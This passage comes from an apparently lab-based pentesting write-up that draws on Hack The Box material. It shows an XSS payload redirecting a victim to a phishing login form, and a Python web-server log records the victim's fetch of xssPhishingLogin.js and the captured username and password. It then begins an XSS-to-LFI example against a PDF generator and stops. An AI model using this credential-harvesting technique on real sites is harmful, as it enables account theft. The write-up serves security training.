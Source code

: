 Now that everything is in place, by injecting our XSS payload into the vulnerable field, the target user will be redirected to our login form, and we should receive their credentials.

<figure><img src="../../../../.gitbook/assets/web_xss_phising_5.png" alt=""><figcaption><p>Figure 7: Injecting the XSS payload.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [06/Aug/2024 14:13:45] "GET /xssPhishingLogin.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 14:13:51] "GET /login.html?uname=IDontHackStuff&psw=OS%7B<SNIP>%7D HTTP/1.1" 200 -
```
{% endcode %}

## XSS to LFI

> _The below example is based on HTB's_ [_Web Enumeration & Exploitation_](https://academy.hackthebox.com/module/163/section/1544) _module._

The site `tracking.inlanefreight.local` accepts a tracking number and generates a PDF document. The tracking number gets reflected in the PDF (Figure 16).

<figure><img src="../../../../.gitbook/assets/ssrf_to_lfi_1.png" alt=""><figcaption><p>Figure 17: The input gets reflected within the generated PDF.</p></figcaption></figure>
